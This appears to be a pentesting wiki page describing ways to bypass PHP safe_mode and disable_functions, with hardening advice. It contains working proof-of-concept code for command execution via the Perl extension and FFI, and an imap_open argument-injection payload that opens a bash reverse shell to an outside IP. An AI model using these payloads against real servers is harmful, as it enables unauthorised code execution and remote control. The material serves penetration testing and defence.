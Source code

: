 # PHP Perl Extension Safe_mode Bypass Exploit

{{#include ../../../../banners/hacktricks-training.md}}

This historical proof-of-concept shows how the third-party **Perl** PHP extension can be abused to recover command execution even when **safe_mode** (deprecated since PHP 5.3 and completely removed in PHP 5.4) or the related **disable_functions** directive tries to forbid the classic `system()/exec()` gadget family.

Although modern deployments seldom ship the `perl` extension, understanding the primitive is still useful because **any loaded extension that exposes a wrapper around `system(3)` (or another process-creation API) will bypass `disable_functions` transparently**: the Zend engine only patches the internal handlers registered in the *function_table*, therefore *new* symbols provided by extensions are out of scope.

## Legacy PoC

From the original article – [Safebuff « Disable-functions bypass » (May 2016)](http://blog.safebuff.com/2016/05/06/disable-functions-bypass/) – stripped to the minimum:

```php
<?php
if (!extension_loaded('perl')) die('perl extension is not loaded');
$perl = new perl();
$perl->eval("system('id');");
?>
```

---

## Context & Limitations (2025)

* **safe_mode is long gone**: it was deprecated in PHP 5.3 (2009) and removed in PHP 5.4 (2012). If you face `safe_mode` today you are dealing with an *extremely* old code base.
* **disable_functions / disable_classes** are still common hardening knobs**, especially in shared-hosting environments. The directive just replaces the handler pointer **inside the function_table**; anything that:
  1. Calls `execve(2)` *indirectly* (e.g. IMAP, FFI, ImageMagick, GD, etc.) or
  2. Restores/overrides the original handler pointers
  will happily bypass the restriction.

The following two modern techniques (actively seen in Red-Team engagements up to mid-2025) complement the historical Perl extension trick.

### 1. Bypass with the **FFI** extension (PHP ≥ 7.4)

`FFI` (Foreign Function Interface) allows userland scripts to call arbitrary symbols from shared libraries. It lives **outside** the disabled-function mechanism so we can directly dispatch `system(3)` from *libc*:

```php
<?php
ini_set('display_errors', 1);
if (!extension_loaded('ffi')) die('FFI disabled');

$ffi = FFI::cdef("int system(const char *command);", "libc.so.6");
$ffi->system("/usr/bin/id");
?>
```

Notes:
* Works on Linux; replace `libc.so.6` by `msvcrt.dll` on Windows (`_popen` gives bidirectional I/O).
* `ffi.enable = preload` **still allows exploitation through preloaded scripts** (common on frameworks that ship an opcache preload file).
* Harden by compiling PHP **`--without-ffi`** or setting both `ffi.enable = 0` and `ffi.enable_cli = 0`.



### 2. Command-injection inside enabled functions – `imap_open()` vector

Several internal functions spawn helper binaries with user-controlled parameters. A well-known case is `imap_open()` which, when provided with a *rsh* style remote hostname, ends up executing an external `rsh/ssh` command. Argument-injection through the `-oProxyCommand=` switch (CVE-2018-19518) leads to code execution even if `exec()` et al. are disabled:

```php
<?php
$payload = '{malicious.example.com/imap/ssl/novalidate-cert/imap123 -oProxyCommand="bash -c \"bash -i >& /dev/tcp/10.10.14.6/4444 0>&1\""}user@example.com';
imap_open($payload, 'user', 'pass');
?>
```

Any directive that blocks outbound network access but still allows `imap_open()` will be circumvented.

Mitigation: make sure the **IMAP extension is not loaded** when not required, or patch to a fixed version (the upstream fix escapes dangerous characters). 

---

## Defensive checklist (2025)

1. Prefer **container / process isolation** (php-fpm per vhost) over `disable_functions`.
2. Compile PHP **without risky extensions** (`--disable-imap --without-ffi --without-readline …`).
3. Maintain an *allow-list* of required internal functions instead of the traditional block-list.
4. Use **open_basedir** only as a second line of defence; it offers no protection against in-memory bypasses (FFI, `proc_open()` UAF, etc.).
5. Monitor for suspicious `putenv()+mail()` chains (see [Chankro](https://github.com/TarlogicSecurity/chankro)) which combine `LD_PRELOAD` injection and external sender binaries. 

---



## References

* Tarlogic – “A deep dive into disable_functions bypass and PHP exploitation” (2023)  
* PHP manual – FFI::cdef documentation  
* NVD – CVE-2018-19518 (imap_open argument-injection)
{{#include ../../../../banners/hacktricks-training.md}}
